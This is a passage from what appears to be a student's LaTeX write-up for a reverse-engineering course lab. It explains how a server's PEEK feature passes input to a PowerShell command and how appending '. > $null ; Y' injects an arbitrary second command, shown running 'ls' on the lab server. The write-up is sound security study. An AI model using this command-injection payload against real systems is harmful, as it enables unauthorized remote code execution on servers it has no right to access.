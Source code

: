 \documentclass{article}
\begin{document}
\section{}
The next step was to use our interactive \texttt{PEEK} request
shell to achive remote code execution on the server.\\
After playing with the shell for a few second we notice the following error message:\\
\begin{lstlisting}
PS C:\Users\pc\Desktop\Semesters\S8\Reverse-Engineering-236496\Homework4\Wet> python .\run_on_input.py
Enter username: Enter password: Welcome archer (Admin)

What would you like to do?
[1] ECHO - ping the server with a custom message, receive the same.
[2] TIME - Get local time from server point of view.
[3] 2020 - Get a a new year greeting.
[4] USER - Show details of registered users.
[5] DMSG - Download message from the server.
[6] PEEK - peek into the system.
[7] LOAD - Load the content of the last peeked file.
your choice (4 letters command code): aaa
Get-ChildItem : Cannot find path 'C:\Users\idanRaz\RE_HW\generated\server\322218611-211515606\aaa' because it does not
exist.
At line:1 char:1
+ Get-ChildItem -Name -Path aaa
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\Users\idanRa...1-211515606\aaa:String) [Get-ChildItem], ItemNotFound
   Exception
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetChildItemCommand
\end{lstlisting}
From this error message we learn two things:
Firstly - we are interacting with PowerShell. Secondly
- this shell attempts to run whatever \texttt{X} is given
to it as a command \texttt{Get-ChildItem -Name -Path X}.\\
Thus we can actually ignore the prefix of the command and just run a different one
by appending it to the end of the command,
so if we want to run \texttt{Y} we will actually pass on '\texttt{. ; Y}'
and so the final input seen by powershell will be '\texttt{Get-ChildItem -Name -Path . ; Y}'
which means \texttt{Y} should be run seperately.\\
Since we wanted to avoid seeing the output of the first part of the command - we have also
redirected it's output to \texttt{null}: '\texttt{. > \$null ; Y}'.\\

So for example to run \texttt{ls}:
\begin{lstlisting}
...
your choice (4 letters command code): . > $null ; ls

    Directory: .

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/19/2023  10:10 AM                config
d-----        6/19/2023  10:10 AM                database
d-----       10/29/2020   9:57 AM                files
d-----         6/9/2021   1:34 PM                source
d-----        6/19/2023  10:10 AM                tools
d-----        6/19/2023   3:52 PM                __pycache__
-a----       12/24/2020   9:54 PM          24064 Capture.dll
...
\end{lstlisting}
\end{document}
